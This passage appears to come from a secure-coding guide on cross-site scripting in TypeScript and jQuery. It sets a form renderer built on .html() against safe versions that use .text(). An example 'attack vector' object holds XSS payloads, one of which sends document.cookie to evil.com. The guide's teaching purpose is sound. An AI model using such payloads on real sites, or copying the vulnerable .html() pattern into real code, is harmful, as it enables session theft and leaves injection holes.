 ```typescript
    `;
  });
  
  formHtml += '<button type="submit">Submit</button></form>';
  
  // XSS VULNERABILITY: Any field property can contain malicious code
  $('#form-container').html(formHtml);
}

// Attack vector:
const maliciousField: FormField = {
  label: 'Email<script>alert("XSS")</script>',
  name: '" onclick="steal()" name="',
  value: '"><script>document.location="http://evil.com?c="+document.cookie</script>',
  type: 'text'
};
```

### Safe jQuery Implementations
```typescript
// SAFE jQuery implementation using proper escaping
function safeRenderComment(comment: Comment): void {
  const commentEl = $('<div>')
    .addClass('comment')
    .attr('data-id', comment.id);
  
  $('<h4>').text(comment.author).appendTo(commentEl);
  $('<p>').text(comment.content).appendTo(commentEl); // .text() escapes HTML
  $('<span>').text(comment.timestamp.toString()).appendTo(commentEl);
  
  $('#comments-container').append(commentEl);
}

// SAFE search results
function safeDisplaySearchResults(query: string, results: string[]): void {
  const container = $('#search-results').empty();
  
  $('<h3>').text(`Search results for: ${query}`).appendTo(container);
  
  const list = $('<ul>').appendTo(container);
  results.forEach(result => {
    $('<li>').text(result).appendTo(list);
  });
}
```

## Advanced Security Vulnerabilities

### SQL Injection via Client-Side Code

**jQuery Vulnerability**